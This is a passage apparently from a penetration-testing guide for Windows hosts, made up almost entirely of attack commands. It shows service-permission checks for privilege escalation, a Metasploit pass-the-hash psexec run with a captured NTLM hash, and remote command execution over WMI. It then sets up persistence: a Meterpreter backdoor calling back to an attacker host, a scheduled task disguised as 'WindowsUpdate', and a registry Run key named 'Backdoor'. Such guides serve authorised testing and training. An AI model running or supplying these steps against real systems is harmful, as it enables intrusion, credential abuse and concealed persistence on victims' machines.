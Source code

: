 #### Service-based Escalation

```bash
# Check service permissions
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -ucqv <ServiceName>

# Unquoted service path vulnerability
sc qc <ServiceName>
```

### Lateral Movement

#### Pass-the-Hash Attacks

```bash
# Use captured hashes
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass <NTLMHash>
set RHOSTS 192.168.100.30
exploit
```

#### WMI Execution

```bash
# WMI command execution
wmic /node:192.168.100.30 process call create "cmd.exe /c whoami"
```

## 📊 Phase 5: Maintaining Access

### Persistence Mechanisms

#### Meterpreter Persistence

```bash
# Create persistent backdoor
run persistence -U -i 60 -p 443 -r 192.168.100.10

# Service installation
run metsvc -A
```

#### Scheduled Tasks

```bash
# Create scheduled task for persistence
schtasks /create /tn "WindowsUpdate" /tr "C:\shell.exe" /sc minute /mo 1

# Registry persistence
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\shell.exe"
```
